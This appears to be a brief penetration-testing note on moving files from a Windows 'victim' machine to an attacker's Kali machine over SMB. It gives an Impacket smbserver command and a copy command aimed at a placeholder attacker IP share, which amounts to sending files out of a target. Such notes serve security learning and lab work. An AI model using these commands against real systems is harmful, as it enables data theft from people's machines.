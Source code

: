 # Transfert file between target and attacking machines

## SMB

### From Target to machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`
- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`
